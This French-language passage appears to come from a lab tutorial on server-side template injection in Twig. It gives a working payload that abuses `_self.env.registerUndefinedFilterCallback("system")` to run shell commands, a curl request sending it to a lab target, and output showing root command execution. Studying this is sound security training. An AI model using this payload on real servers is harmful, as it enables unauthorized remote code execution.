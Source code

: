 
L'étape suivante consiste à obtenir l'exécution de code à distance sur le serveur cible. Avant de déplacer la partie charge utile, il convient de mentionner que Twig a une variable `_self`, qui, en termes simples, rend publiques certaines des API internes. Cet `_self`objet a été documenté, nous n'avons donc pas besoin de forcer brutalement les noms de variables (plus à ce sujet dans les prochains exemples d'exploitation SSTI). Revenons à la partie exécution de code à distance, nous pouvons utiliser la `getFilter`fonction car elle permet l'exécution d'une fonction définie par l'utilisateur via le processus suivant :

-   Enregistrez une fonction en tant que rappel de filtre via`registerUndefinedFilterCallback`

-   Invoquer `_self.env.getFilter()`pour exécuter la fonction que nous venons d'enregistrer

#### Charge utile

Code : php

```
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}

```

Soumettons la charge utile en utilisant cURL cette fois.

#### cURL - Interagir avec la cible

  cURL - Interagir avec la cible

```
dsgsec@htb[/htb]$ curl -X POST -d 'name={{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}' http://<TARGET IP>:<PORT>

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN"
"http://www.w3.org/TR/xhtml11/DTD/xhtml11.dtd">
<html>
<head>
  <link rel="stylesheet" type="text/css" href="css/default.css" media="screen"/>
  <title>SSTI</title>
</head>
<body>
<div class="container">
  <div class="main">
    <div class="header">
      <div class="title">
        <h1>I'm here to say hello</h1>
      </div>
    </div>
    <div class="content">

<a>
    Who are you?
    <form method='post' action=''>
        <div class="form-group">
            <input placeholder="Name" name="name" size=70></input> <button class="btn btn-default" type="submit" name='submit'>Send</button>
       </div>
    </form>
Hello uid=0(root) gid=0(root) groups=0(root)
Linux serversideattackssstitwig-60784-78bd58b5b-pmvvv 4.19.0-17-cloud-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64 GNU/Linux
serversideattackssstitwig-60784-78bd58b5b-pmvvv
serversideattackssstitwig-60784-78bd58b5b-pmvvv!</a>

        </div>
        <div class="clearer"><span></span></div>
    </div>
    <div class="footer">Break me!</div>
```